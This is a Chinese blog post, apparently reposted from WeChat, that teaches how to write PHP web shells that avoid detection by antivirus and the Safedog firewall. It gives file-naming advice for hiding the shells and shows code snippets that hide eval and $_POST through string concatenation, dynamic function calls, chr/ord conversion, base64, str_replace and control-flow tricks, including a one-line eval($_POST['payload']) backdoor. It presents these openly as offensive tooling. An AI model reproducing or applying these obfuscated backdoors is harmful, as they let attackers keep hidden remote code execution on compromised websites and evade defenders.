 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/r7wRnXAkOgxc1HoRe7gt9A)

对于网站木马总重要的就是隐匿性和免杀. 在说免杀之前, 我想先说说有关于隐匿性的两个小细节.

**隐匿性:**

**1.** 木马文件的命名

例如你不可能将木马命名为 backdoor.php 或者 muma.php 等等, 根据网站网页命名的方式决定木马文件的命名

2. 上传的木马是否要使用参数加密

使用参数加密的木马对于机器来说不容易识别, 对于人来说却十分容易识别, 因为没有一个正常的 GET 请求会对参数进行加密

不使用参数加密的木马对于机器来说很容易识别, 对人来说不太容易识别相对于使用参数加密的木马来说.

最好的解决办法是同时上传这两种木马.

**免杀:**

免杀最重要的目的就是尽可能的减少静态特征以及关键字的拼接

常用的免杀技巧:

1. 字符串拼接

```
$a = ‘ev’;
$b = ‘al’;
$c = $a.$b;//eval
```

2. 动态函数

```
$a = ‘eval’;
$b = ‘_GET’;
$a($$b[‘muma’]);//eval($_GET[‘muma’]);
```

3. 进制转换

```
chr(ascii)
$a = chr(61);//$a = ‘=’
ord(string)
$a = ord(‘=’);//$a = 61
$a = chr(36).chr(95).chr(ord(‘P’)).chr(ord(‘O’)).chr(ord(‘S’)).chr(84)
//$a = ‘$_POST’
```

4. 类的继承和构造方法

```
class  guogou
{
  public $adaa= 'afafaf';
  function __construct()
{
    echo "忽悠狗";
  }
}
class gg extends guogou
{
  public $a ;
  public $b;
  public $c;
public $dd ="1";
  function __construct()  //构造方法
{
/*
Do something
*/
  }
  function po($p)
{

$asdf = ‘忽悠安全狗’;
  }
}
```

5. 数组拼接和进制转换四则运算灵活运用

```
$a = array(‘a’=>’P’,’b’=>36,’c’=>’_’,’d’=>’o’,’e’=>’S’,’f’=>’T’);
//大写O与小写o的ascii值相差32
$result = chr($a[‘b’]). $a[‘c’]. $a[‘a’]. chr(ord($a[‘d’])-32). $a[‘e’]. $a[‘f’];
//$result = ‘$_POST’
```

6. 逻辑判断木马

```
eval(false ? 312513: $_POST['payload']);
```

7.base64 编码解码

```
$a = base64_decode(‘JF9QT1NU’);//$a = ‘$_POST’
```

8. 字符串替换

```
$a = ‘$_POgeTST’;
echo str_replace(‘geT’,’’,$a);//打印$_POST
```

9) 注释干扰

在代码执行过程中随意添加注释

1.switch 语句, if 语句绕过

switch 语句的特点是不遇到 break 就一直向下运行

```
switch(‘2’)
{
case  ‘1’:
echo  ‘something’;
break;
case  ‘2’:
/*do something*/
case ‘3’:
$a = ‘$_POST’;
break;
default:
/*do something*/
}
```

注意第二个 case ‘2’: 的下面我并没有添加 break, 所以 switch 从 case ‘2’一直执行到 default 上面 (到 case ‘3’的 break 结束)

If 判断

```
If(false):
{/*do something*/}
else:
{$a = ‘$_POST’;}
If嵌套
If(true){
If(true){
$a = ‘$_POST’;
}
}
```

2. 位运算

通过位运算可以构造任意字符, 但是我并不推荐这种做法, 毕竟没有一个正常的 php 程序会用到这个东西.

注意: 为了方便理解下面的免杀小马, 我用 payload 作为变量名, 但是有些杀毒软件会根据变量名进行查杀, 请不要用 $payload 诸如此类的变量名.

在 PHP 中像 chr(),ord(),str_replace()之类的内置函数 (猥琐函数) 非常多, 单个技巧并不能实现免杀, 如何将这些技巧结合起来才是最重要的.

下面我以一个过安全狗的小马为例, 抛砖引玉, 希望对大家编写免杀木马有所帮助.

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9NDFuPgudjG67og286wFKiaibDYZdHibStGDjReYDC19B2QXr9qU9FzkgDVErjOAZrse4QRib0ETtdlw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9NDFuPgudjG67og286wFKiarFtfkbtKUibcY2icKNnHMu57BE0TrdUnZugUUy90eeWBgyfDx8KRdsEw/640?wx_fmt=png)

成功躲避检测.

下面是 ma1.php 的源代码, 只有短短的 42 行.

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9NDFuPgudjG67og286wFKiaAo5wYGp2bcMyreA6miaYEe3eaAbXZAYUIxMAjotrMoZZe6ciajAbsA2Q/640?wx_fmt=png)

还有一些骚操作, 比如文件包含, txt 文档放源码, 内存马等等, 每个人的思路都不一样, 多看看别人的免杀马怎么写的, 你编写木马水平一定会提高。

小提示: 编写木马的时候想想正常的程序员会怎么写，我们跟他们一样, 只不过我们是在有意创造漏洞.

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)

**推荐阅读：**

[![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8Qfeuvou9ibcA8A5Juib0MWNc6KLuGtGNyvQCeI0oocowbnH4ELpicriaCGcvRpJVcTrmlwynagQaNca71945udw/640?wx_fmt=jpeg)](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247494120&idx=2&sn=e659b4f88a4c40442d36d73f8eea9d96&chksm=ec1cbcd7db6b35c1f493151004956b010056cdcc6378d197aade5bd3c559a787d7b28e22e3e9&scene=21#wechat_redirect)

**点赞 在看 转发**

原创投稿作者：Corn

![](https://mmbiz.qpic.cn/mmbiz_gif/Uq8QfeuvouibQiaEkicNSzLStibHWxDSDpKeBqxDe6QMdr7M5ld84NFX0Q5HoNEedaMZeibI6cKE55jiaLMf9APuY0pA/640?wx_fmt=gif)